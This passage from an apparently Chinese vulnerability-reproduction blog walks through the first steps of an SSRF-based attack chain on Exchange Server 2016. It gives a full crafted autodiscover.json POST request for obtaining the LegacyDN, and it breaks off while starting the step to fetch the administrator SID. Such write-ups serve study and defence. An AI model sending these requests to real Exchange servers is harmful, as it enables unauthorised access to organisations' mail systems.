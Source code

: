 ![](https://gitee.com/fuli009/images/raw/master/public/20210825093217.png)  

  

 **Exchange Server 2016：**  

https://www.msdn.hk/html/2015/1579.html  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825093218.png)  

  

 **安装教程：**

https://blog.51cto.com/rdsrv/1911356  

  

 **0x05 漏洞复现**  
  
  

1、攻击链第一步要通过SSRF  

请求AutoDiscover服务，获取legacyDn

  * 

    
    
    /autodiscover/autodiscover.json?a=ktacz@ygjnt.jzk/autodiscover/autodiscover.xml

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825093220.png)  

  *   *   *   *   *   *   *   * 

    
    
    POST https://192.168.114.12/autodiscover/autodiscover.json?a=ktacz@ygjnt.jzk/autodiscover/autodiscover.xml HTTP/1.1Host: 192.168.114.12Accept-Encoding: identityCookie: Email=autodiscover/autodiscover.json?a=ktacz@ygjnt.jzkContent-Type: text/xmlContent-Length: 316  
    <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006"><Request><EMailAddress>administrator@kdc.com</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema></Request></Autodiscover>

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825093222.png)

  

通过如上图  

获取到LegacyDN与proxylogon类似  

  
2、接下来我们要获取500sid的值  
通过mapi/emsmdb 接口进行获取  

加入如下header头body带入LegacyDN的值

    